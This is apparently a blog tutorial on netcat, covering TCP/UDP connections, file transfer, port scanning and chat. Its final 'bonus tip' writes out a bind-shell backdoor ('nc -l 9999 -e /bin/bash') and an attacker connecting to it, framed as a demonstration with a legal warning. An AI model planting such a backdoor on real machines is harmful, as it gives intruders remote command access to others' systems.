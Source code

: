 # Netcat (nc) command examples

Here’s the syntax for the nc command:

``` bash
nc [options] [hostname] [port]
```

The syntax can vary depending on the application, but for most uses, your commands will follow this basic pattern.

## 1. Create a Connection Using TCP with netcat command

As I mentioned earlier, the core functionality of netcat is joining two machines together. You can set up a connection using TCP to connect two separate machines, you can also emulate that connection using the terminal.

The Listening Machine:

``` bash
nc -l 8080
```

This command opens port 8080 and tells the machine to begin listening on this port.

In order to establish a connection, you will use another terminal and enter the following.

The Client Machine:

``` bash
nc 127.0.0.1 8080
```

You can also use ‘localhost’ in place of the IP, or use the IP of your second PC here if you are making a remote connection.

That’s it, you have opened a TCP port and established a connection between two systems.

### Quick Intro to TCP vs UDP

Why do we use TCP by default? TCP is an older technology than UDP and they operate at different levels of the OSI model. I will give a quick overview of the differences between them and describe some situations where you may choose one over the other.

TCP has strong error-correction capabilities. What does that mean? Basically, this means that while data packets are in transit from system to system, there are continuous tests being performed. These tests make sure that the information from System A is copied accurately to System B. This is a very simplified version of what happens as information travels across networks (the internet).

There are many protocols used in internet communication, though, not just TCP. UDP has different rules than TCP. Neither is necessarily “better” but they can each excel at performing different tasks.

Why would we use UDP over TCP or vice versa? It depends on the application. TCP is slower, but more reliable for transferring data accurately.

UDP can be chosen in situations where speed is more important than reliability transmitting information. One example of this is streaming data, like video. Video can be transferred more quickly over UDP, and even if there are errors in the transmission, they are less likely to impact the user experience.

## 2. Create a connection using UDP with nc command

The steps for making a UDP connection are virtually identical to the ones we’ve already followed. You will add an option flag to specify that the type of port you want to open is UDP, not the default TCP.

``` bash
nc -l -u 999
```

It’s that simple. That’s all you need to do to open UDP port ‘999’.

You might wonder if you can use TCP and UDP with the same port number. You can, because they are separate protocols.

## 3. Use nc command to transfer files between remote systems

There are other methods for transferring files from one system to another. You can also use the netcat command for this purpose.

For this example, I created a demo that illustrates a remote file transfer from my Linux machine to my MacBook Pro.

### Set up the Linux PC to Receive

``` bash
nc -l 9999 > fromMac.file
```

You begin listening on the receiving machine on TCP port 9999. The ‘>‘ tells the machine you are expecting a file to be transferred. The name that follows is the local name for the file.

### Set up the Mac PC to Send

nc 172.20.1.168 9999 < toLinux.file
The IP address here belongs to the Linux machine. You flip the symbol to ‘<‘ and the file ‘toLinux.file’ will be copied onto the remote machine as ‘fromMac.file’.

## 4. Use nc command for port scanning

There might be more efficient options for port scanning, but it can be done with netcat. Since netcat comes installed by default on most operating systems, it’s nice to know how to do this if you need to do some quick troubleshooting. You’ll use the ‘-n’ and display verbose output.

``` bash
nc -v -n 127.0.0.1 1-100
```

This attempts to make a connection to ports between 1-100. Port 80 is HTTP, as I’m sure many of you know. This port is normally open on machines because it is used for connecting to the internet.

When I use this command, I’m actually attempting to connect to all of the ports between 1-100. It successfully connects to port 80, but generates an error message from Apache. I end up with some HTML output on the terminal because my computer sees it as a bad page request.

``` bash
[...]
nc: connect to 127.0.0.1 port 77 (tcp) failed: Connection refused
nc: connect to 127.0.0.1 port 78 (tcp) failed: Connection refused
nc: connect to 127.0.0.1 port 79 (tcp) failed: Connection refused
Connection to 127.0.0.1 80 port [tcp/*] succeeded!

HTTP/1.1 400 Bad Request
Date: Fri, 20 Dec 2019 15:08:29 GMT
Server: Apache/2.4.38 (Ubuntu)
Content-Length: 310
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Ubuntu) Server at pop-os.localdomain Port 80</address>
</body></html>
```

### Zero I/O Mode

To avoid this, you can use the -z flag, which stands for zero input/output. This is the built-in port-scanning mode for netcat. I still get the same language, but it does not actually make the connection to port 80 generating the bad request error. Instead it continues through all scanned ports.

## 5. Chat with Netcat

This is a more fun way to use netcat. When you establish a TCP connection like above, you can actually “chat” from machine to machine. It’s less novel in an era where texting and chat applications are ubiquitous but this would have totally blown someone’s mind back in 1996.

### Bonus Tip: Create a backdoor with nc command

I will show this for demonstration purposes only. Please be aware that unauthorized use of this command could be considered criminal activity in your locale.

In fact, this command no longer does anything with ‘nc’. There are ways to do it, but you will have to find them somewhere else. Once again, this is intended only to show the capability.

The -e flag makes something executable. A common way for malicious actors to gain access is to create such a backdoor on an open port and use that to execute scripts or otherwise manipulate the file system.

So if the attacker somehow gained the access to the “victim” machine, he/she can create a backdoor like this:

``` bash
nc -l 9999 -e /bin/bash
```

Now the attackers can use this backdoor to access into the system remotely and execute commands. So, from attacker’s system:

``` bash
nc 192.168.1.10 9999
ls
Desktop
Documents
Downloads
Music 
Pictures
Public
Templates
Videos
firefox linuxhandbook.com
```

This enables the attacker to access your computer remotely from the command line. Once connected, I can run bash commands similarly to how I could if I was using the computer directly.

I’m sure you can imagine how someone without the best of intentions could abuse this power. This makes it very important to monitor port activity on any network.

I hope you enjoyed this brief introduction to the netcat command. As always, let us know what you think in the comment section.
